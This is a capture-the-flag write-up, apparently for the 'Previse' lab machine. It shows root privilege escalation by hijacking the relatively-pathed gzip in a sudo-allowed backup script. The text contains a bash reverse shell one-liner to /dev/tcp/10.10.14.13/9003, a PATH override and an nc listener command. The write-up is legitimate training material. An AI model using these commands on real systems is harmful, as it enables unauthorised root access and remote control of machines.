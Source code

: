 Running `sudo -l` shows that we can run one command as root
```
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Lets `cat` the file and see what its doing
```
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Its using `gzip` to backup two files. But notice it uses `gzip` and not `/usr/bin/gzip` we can hijack `gzip` because it uses a relative path instead of an absolute path. 

Lets make our version of gzip
```
vim gzip

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.13/9003 0>&1
```

Then we need to make it executable
`chmod +x gzip`

Next, we will modify our Environment Path to include our directory that our malicious `gzip` is in.
`export PATH=/home/m4lwhere:$PATH`

Set up a listener on kali
`nc -lvnp 9003`

Execute the script
`sudo /opt/scripts/access_backup.sh`

Then we get a connect back as root!
```
root@previse:/root# id
id
uid=0(root) gid=0(root) groups=0(root)
```

